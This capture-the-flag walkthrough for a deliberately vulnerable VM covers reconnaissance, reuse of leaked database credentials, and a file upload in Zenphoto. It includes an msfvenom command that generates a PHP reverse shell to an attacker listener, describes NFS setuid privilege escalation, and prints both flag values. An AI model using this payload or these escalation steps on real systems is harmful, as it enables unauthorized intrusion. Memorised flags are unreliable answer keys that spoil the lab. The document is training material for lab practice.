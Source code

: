 # Silly Willy VM (Hard Difficulty)

This directory consists of challenges related to `Silly Willy VM`.

Author: Joe and Xiaozhi

## Silly Willy VM writeup 
Orcus walkthrough
1.	Nmap –sn to find the ip address. You can use nmap –sV to find the services open.
 
 
Port 80 is open so we see what it's about. 
 
2.	Run dirb on it to see what other directories it has.
 

3.	Notice that there is a /admin and a /backups. Lets view /admin. There isnt anything in the webpage but when we inspect element, we see a commented line leading us to /backups.
 
4.	Lets view /backups now. We can try downloading these to see what it is.
 
 
 
5.	Inside SimplePHPQuiz, there is a lot of folders and php files. We will now explore these and after awhile, you’ll find that you can get the database credentials in includes folder > db_conn.php. 
 
6.	Inside SimplePHPQuiz, there is a lot of folders and php files. We will now explore these and after awhile, you’ll find that you can get the database credentials in includes folder > db_conn.php.
7.	The credentials are dbuser and dbpassword.
 
8.	We can try uploading a php shell into the web root. This error thrown tells you this parameter (-- secure-file-priv) limits the effects of data import and export operations and only permit it to users who have the FILE privilege. 
 
9.	In dirb, we also saw another interesting directory called zenphoto. Let's visit that.
 
10.	Zenphoto is a content management system and we can set it up for exploitation. We will use the same credentials as above (dbuser, dbpassword)
 

11.	We now need to create a user to login to the admin panel. I will user credentials as follows:
12.	Username – user1
13.	Password – P@ssw0rd1
 

14.	After we have logged in, we can now upload files for exploitation. Let’s use msfvenom to create a reverse shell. 
 
15.	Command used: msfvenom -p php/meterpreter/reverse_tcp LHOST=(host ip) LPORT=4444 -f raw > shell.php
16.	The upload only accepts zip files, so we need to package it as a zip. Afterwards we can upload the file. 
 
 
 
17.	Now, we are ready for exploitation. First set up handler before running the shell. Use msfconsole.
 
18.	Now execute shell.php. This will return a meterpreter on your msfconsole.
 
 
19.	After searching a while, you will find a flag.txt in /var/www. Cat it and you will get the flag. 
20.	Flag 1/ User flag: 868c889965b7ada547fae81f922e45c4
 
 

21.	Now we need to perform privilege escalations. After navigating abit, we find something very interesting in /etc.
 
22.	Kippo is running on the machine, which means there could be credentials on it. (Kippo: an SSH honeypot service)
 
23.	We saw earlier that rpc is enabled, so lets run rpcinfo on the ip to see what it returns. We can see that nfs is enabled and we can see the mounts that are exported by the machine.
 
24.	Since Nfs is enabled, we will check for what mounts are exported by the machine. 	
 
25.	Checked the nfs config
 
26.	Created a program using nano called root_shell.c to set uid and gid and execute /bin/bash to /tmp/shell.c
 
27.	Went to /tmp and uploaded the root_shell.c file
 
28.	Went into shell and spawned python shell
 
29.	Compiled the shell.c program
 
30.	In kali machine, made a directory for /tmp/nfs and mounted it to target machine.
 
31.	Assigned root privileges to root_shell
 
32.	Get root flag from target machine 807307b49314f822985d0410de7d8bfe
 


